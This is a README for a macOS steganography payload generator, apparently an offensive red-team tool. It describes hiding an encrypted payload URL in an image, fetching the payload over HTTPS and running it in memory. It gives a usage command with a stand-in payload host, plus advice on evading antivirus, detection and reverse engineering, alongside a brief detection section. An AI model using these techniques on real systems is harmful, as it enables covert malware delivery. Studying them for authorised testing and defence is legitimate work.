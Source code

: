 # Forblaze - A Python Mac Steganography Payload Generator
Author: AsaurusRex

## Disclaimer
DO NOT use this project for purposes other than legitimate red teaming/pentesting jobs, or research.  DO NOT use this for illegal activity of any kind, and know that this project is intended for research purposes and to help advance the missions of both red and blue teams.  

## Purpose
Forblaze is a project designed to provide steganography capabilities to Mac OS payloads.  Using python3, it will build an Obj-C file for you which will be compiled to pull desired encrypted URLs out of the stego file, fetch payloads over https, and execute them directly into memory.  It utilizes custom encryption - it is not cryptographically secure, but purely to thwart analysis by AV engines.  It is a slight deviation on my previously built custom encryption for Windows, called Rubicon, and is more simple in practice.  Forblaze utilizes header and footer bytes to identify where in the stego file your encrypted bytes are, and then decrypts them with a hard-coded key in compile_forblaze.m.  This key can be saved and re-used, with the effect that a different URL could be used to fetch a different payload, and the same compiled forblaze should still be able to execute and process it (provided the header and footer bytes aren't changed, and the new stego file is uploaded to the correct location.) 

## Requirements:
Python3 (only tested with Python3.9+), and some associated Python libraries - pip3 should take care of any python dependencies you need.  In addition, clang will be used for compilation, and forblaze should be run on a mac so that forblaze can be correctly compiled.  

## Usage

usage: forblaze_url.py [-h] [-innocent_path PATH] [-o OUTPUT] [-len_key LENGTH_OF_KEY] [-compile_file COMPILE_FILE]
                       [-url_to_encrypt URL] [-supply_key SUPPLIED_KEY] [-stego_location STEGO_LOCATION]
                       [-compiled_binary COMPILED_BINARY]

Generate stego for implants.

optional arguments:

  -h, --help            show this help message and exit

  -innocent_path PATH   Provide the full path to the innocent file to be used.

  -o OUTPUT             Provide the path where you want your stego file to be placed.

  -len_key LENGTH_OF_KEY
                        Provide a positive integer that will be the length of the key in bytes. Default is 16. Must be between 10 and 150 bytes.


  -url_to_encrypt URL   Provide the URL you want to stick inside the compile file.

  -supply_key SUPPLIED_KEY
                        If you wish to use a specific key, provide it here. It must be in the format: -supply_key "\\x6e\\x60\\x..." - aka two double slashes are needed between each byte,
                        or else it WILL NOT WORK.

  -stego_location STEGO_LOCATION
                        You must provide a location on target where the stego file will reside. It is wise to follow strict full paths: /Users/<>/Documents/file.jpg for example.

  -compiled_binary COMPILED_BINARY
                        Give the name of the compiled binary to extract the URL and run code in memory from the stego file. The default is forblaze.

  -method METHOD        Select which method you wish to use. Method 1 relies on executing a dylib directly into memory, and works with Go payloads as well as regular payloads. Method 2
                        relies on executing a macho file directly into memory, but does not work with Go compiled payloads. Method 3 is method 1 but relies on fetchting the decrypting key
                        over a server, which is more opsec friendly. The default method is 1. NOTE: You still might need to edit the 'module' (aka RunMain) manually depending on your
                        execution method!

  -key_url KEY_URL      Provide the URL to the key to decrypt the stego file.

```
  python3 forblaze_url.py -innocent_path Land-of-Belle.jpeg -o my_evil_pic.jpeg -len_key 24 -url_to_encrypt "https://your-example.com/test-payload.dylib" -method 1 -stego_location /tmp/my_not_evil_pic.jpeg  -compiled_binary innocent_binary
```

## Opsec Concerns
Honestly, not too many.  Mac OS detections are still pretty poor, especially for in-memory activity.  As an exercise for the reader, you could also call payload bytes directly vs a URL with some slight modifications to this code.  However, depending on the size of your payload, the encryption piece in the python script might take an unacceptably long time to complete.  

Note: since this code compiles to a Mach-O binary (not a dylib, although that can be changed pretty easily in the code), controls like Gatekeeper will prevent it from executing by default unless you can sign the payload or remove the quarantine attribute.  

I would recommend changing things like the number of random bytes generated from the default, and changing the default header and footer bytes that forblaze uses to find the payload in the stego file (as well as the length of those header and footer bytes to perhaps be more inconspicuous). 

For the best OpSec, I recommend fetching your decryption key from an external server you control - then you can control access to that key strictly, making RE much more difficult.

## Detection/Prevention
Steganography is pretty difficult to detect.  If you know where the stego file is, you can begin to extract the suspect bytes after the end of the normal file EOF (so after "FFD9" for jpegs for example).  These suspect bytes will still include the actual encrypted payload and nonsense random bytes, which would be hard to distinguish from each other unless you possess the header and trailing bytes specified by Forblaze.  You could look through these bytes and look for patterns of repeating bytes, since this is how the header and footer bytes with forblaze tend to work, but a skilled operator could make that more difficult to find than the default.  If a payload is caught you could obviously RE the binary and try to locate the stego file, and then try to use the hard-coded key and headers/footers to reverse the URL being called (or other bytes).  But that all assumes you found the binary by some other means.  


## Testing 
This tool has been tested on various versions of Mac OS, including Big Sur and Catalina (x64 systems).  Please let me know if you have problems. 

## Technical Nitty Gritty

The custom encryption is a basic Caesar cipher, where different bytes of the key are used to shift the bytes of your plaintext bytes.  This is why larger keys aren't NECESSARILY better for your encryption - it depends on the length of your plaintext.  If your plaintext is 50 bytes, and you use a 150 byte key, only the first 50 bytes of your key will be used.  If your plaintext is > 150 bytes however, the longer keys would be more secure.  

The steganography is quite simple: the bytes of your original innocent file  are kept the same, and random bytes (along with your encrypted payload bytes) are appended after these bytes.  These random bytes are by default anywhere between 2 and 2000 in length (this should likely be changed to fit your plaintext size -> larger plaintexts should mean more random bytes are generated).  

The in-memory execution piece is following https://blogs.blackberry.com/en/2017/02/running-executables-on-macos-from-memory, as well as the maisal loader (can't find the link at the moment), with the simple change that instead of reading payload bytes from an on-disk file, they are read over http/https.    


## Contributions/Comments/Criticisms
I am very open to receiving comments and to collaboration!  Hopefully this helps generate useful discussion around the topic of custom crypto, or provides researchers some new insights.  
